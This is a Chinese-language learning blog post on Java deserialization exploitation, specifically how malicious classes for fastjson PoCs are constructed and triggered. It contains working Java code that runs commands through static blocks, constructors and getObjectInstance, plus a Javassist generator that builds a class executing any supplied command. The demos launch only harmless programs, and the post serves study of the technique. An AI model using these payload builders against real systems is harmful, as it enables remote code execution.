

Title: Java反序列化漏洞学习实践六：类的加载机制和恶意类构造
Date: 2018-11-26 18:04
Category: 漏洞实践
Tags: Java,反序列化,漏洞
Slug: 
Authors: bit4
Summary: 

### **0x0、背景说明**

在fastjson的反序列化漏洞PoC中，有一种是利用了static{}静态代码块在类的初始化（加载过程的一个环节）时会被执行这种特性。本文主要总结该思路中恶意类的构造方法和其触发方式，以全面了解fastjson反序列化漏洞PoC构造的过程。

本文是个人学习的记录总结，如有错误烦请[指出](https://github.com/bit4woo/code2sec.com/issues)，谢谢！

### **0x1、恶意类构造及其触发方式**

如思维导图所示，总结了可以构造恶意类的几种方式：

1. 利用静态代码块，在类的加载环境---初始化时被执行。（重点）
2. 利用构造函数，在类实例化时执行。当然，在它前面必须执行初始化过程。
3. 利用自定义函数，需要在函数调用时执行。
4. 利用接口的重写方法，应该也是在函数调用时执行。



demo代码：

```java
import java.io.IOException;
import java.util.Hashtable;

import javax.naming.Context;
import javax.naming.Name;
import javax.naming.spi.ObjectFactory;

public class  evilClassTest{
    public static void main(String[] argv){
        try {
			//触发方式1
        	Class<?> xxx = Class.forName("EvilClasses.evilClazz");//只会执行静态代码块中的命令。
        	evilClazz cs = (evilClazz)xxx.newInstance();//这里触发构造函数中的命令。
        	
        	Class<?> yyy = Class.forName("EvilClasses.evilClazz",true,ClassLoader.getSystemClassLoader());
        	//只会执行静态代码块中的命令,但它可以执行指定类加载器，更为灵活
        	evilClazz cs1 = (evilClazz)yyy.newInstance();//这里触发构造函数中的命令。
        	
        	
        	//触发方式2
    		Class<?> c1 = ClassLoader.getSystemClassLoader().loadClass("EvilClasses.evilClazz"); //这里不会触发静态代码块，因为是隐式加载方式。
    		c1.newInstance();//这里会触发静态代码块后，触发构造函数
			
    		
			//触发方式3，应该和方式2本质上是一样的！
        	new evilClazz();   //会执行静态代码块和构造函数中的命令
        	
        	
        	//触发方式4
        	new evilClazz().fun();//静态代码，构造函数，自定义函数都会触发。函数调用方式，不用多说
        	
        	//凡是能触发构造函数中代码的方法，都能触发静态代码块中的代码；凡是能触发自定义动态函数中代码的方法，都能触发静态代码块中的方法。
        	
        	//getObjectInstance()函数的代码如何触发？和web框架环境有关系，需要学习！！
        	
        	
		} catch (Exception e) {
			e.printStackTrace();
		}
    }
}

class evilClazz implements ObjectFactory{
	public static String aaa;
	
	//静态代码块命令执行
    static
    {
        try {
            Runtime.getRuntime().exec("explorer.exe");
        } catch (IOException e) {
            e.printStackTrace();
        }
    }
	
	//构造函数命令执行
    evilClazz(){
        try{
            Runtime.getRuntime().exec("calc");
        }catch(Exception e){
            e.printStackTrace();
        }
    }
    
    //自定义函数
    public void fun() {
        try{
            Runtime.getRuntime().exec("notepad.exe");
        }catch(Exception e){
            e.printStackTrace();
        }
    }
    
    //getObjectInstance命令执行,是因为实现了ObjectFactory接口。
    @Override
    public Object getObjectInstance(Object obj, Name name, Context nameCtx, Hashtable<?, ?> environment) {
    	try {
			Runtime.getRuntime().exec("mstsc.exe");
		} catch (IOException e) {
			e.printStackTrace();
		}
        return null;
    }
}

```

 

### 0x2、用javassist字节码操作动态创建恶意类

为什么需要动态创建恶意类？

1.防止缓存。因为类的加载是有缓存的？？？当短时间重复加载一个类时可能不会执行加载过程，从而命令执行失败？？？（不确定）

2.动态输入命令，更加灵活。

```java
import java.io.File;
import java.net.URL;
import java.net.URLClassLoader;

import javassist.ClassPool;
import javassist.CtClass;
import javassist.CtConstructor;
import javassist.CtField;
import javassist.CtMethod;
import javassist.CtNewMethod;
import javassist.bytecode.AccessFlag;

public class createEvilClass {
	
	public static byte[] create(String cmd) {
		
		ClassPool pool = ClassPool.getDefault();
		//会从classpath中查询该类
		CtClass evilclass = pool.makeClass("Evil");
		try {
			CtField f= new CtField(CtClass.intType,"id",evilclass);//获得一个类型为int，名称为id的字段
			f.setModifiers(AccessFlag.PUBLIC);//将字段设置为public
			evilclass.addField(f);//将字段设置到类上
			
			//添加静态代码块
			CtConstructor ci = evilclass.makeClassInitializer();
			ci.setBody("{try{Runtime.getRuntime().exec(\""+cmd+"\");}catch(Exception e){e.printStackTrace();}}");
			 
			//添加构造函数
			CtConstructor ctConstructor1 = new CtConstructor(new CtClass[]{}, evilclass);//指定参数构造器
	        ctConstructor1.setBody("{try{Runtime.getRuntime().exec(\""+cmd+"\");}catch(Exception e){e.printStackTrace();}}");//$1代表第一个参数，$2代表第二个参数，$0代表this
			evilclass.addConstructor(ctConstructor1);
			
			//添加方法
			CtMethod helloM=CtNewMethod.make("public void fun(){try{Runtime.getRuntime().exec(\""+cmd+"\");}catch(Exception e){e.printStackTrace();}}",evilclass);
			evilclass.addMethod(helloM);
			
			evilclass.writeFile("D:\\");//将生成的.class文件保存到磁盘
			byte[] b=evilclass.toBytecode();
			
			return b;
		}catch(Exception e) {
			e.printStackTrace();
		}
		return null;
	}
	
	public static void main(String[] args) {

		
/*		//从本地或者网络加载类
		try {
			File file = new File("D:\\");
			URL url = file.toURL();
			URL[] urls = new URL[]{url};
			ClassLoader cl = new URLClassLoader(urls);
			Class cls = cl.loadClass("Evil");
			cls.newInstance();
			//
			
			
		} catch (Exception e) {
			e.printStackTrace();
		}*/
		
		
		try {
			File file = new File("D:\\");
			URL url = file.toURL();
			URL[] urls = new URL[]{url};
			ClassLoader cl = new URLClassLoader(urls);
			Class yyy = Class.forName("Evil",true,cl);
			
		} catch (Exception e) {
			e.printStackTrace();
		}
		
		
		byte[] st = createEvilClass.create("calc");
	}

}
```

通过Bytecode Viewer查看生成的代码，并尝试加载，以测试是否正确。


### 0x3、参考

[技术专栏 | 深入理解JNDI注入与Java反序列化漏洞利用](https://mp.weixin.qq.com/s?__biz=MjM5NzE1NjA0MQ==&mid=2651198215&idx=1&sn=929dd320ac2b17682e6c7d3f163f6985&chksm=bd2cf6a18a5b7fb758e4000c253adba90de67f72527ae1525a1d6722a09a85a06c8d800a08a7&scene=0#rd)

[defineClass在java反序列化当中的利用](https://xz.aliyun.com/t/2272)

[秒懂Java动态编程（Javassist研究）](https://blog.csdn.net/ShuSheng0007/article/details/81269295)